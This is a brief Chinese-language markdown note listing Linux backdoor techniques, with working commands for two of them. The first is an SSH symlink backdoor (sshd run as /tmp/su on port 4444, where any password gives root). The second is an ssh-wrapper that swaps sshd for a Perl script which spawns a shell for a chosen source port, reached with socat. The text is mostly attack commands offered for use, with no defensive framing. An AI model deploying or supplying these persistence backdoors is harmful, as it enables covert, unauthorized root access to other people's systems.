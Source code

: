 #  Linux下的几种后门
* ssh软链接后门
* ssh-wrapper
* 时间计划

# ssh软件链接后门
在受害机执行：
```
ln -sf /usr/sbin/sshd /tmp/su;/tmp/su -oPort=4444
```
攻击机链接到受害机
```
ssh root@192.168.1.107 -p 4444
输入任意密码即可登录ssh
```
![](_v_images/20191026221103993_23129.png)

原理：
![](_v_images/20191026221128442_4661.png)


# ssh_wrapper
在受害机上执行该sh脚本
```
cd /usr/sbin/
mv sshd ../bin/
echo '#!/usr/bin/perl' >sshd
echo 'exec "/bin/sh" if(getpeername(STDIN) =~ /^..4A/);' >>sshd
echo 'exec{"/usr/bin/sshd"} "/usr/sbin/sshd",@ARGV,' >>sshd
chmod u+x sshd
/etc/init.d/sshd restart
```


在攻击机上使用以下命令链接
```
socat STDIO TCP4:target_ip:22,sourceport=13377
```
![](_v_images/20191026224241917_24477.png)


原理
![](_v_images/20191026224259239_22236.png)


Linux后门操作大全：https://blog.csdn.net/qq_33020901/article/details/81773737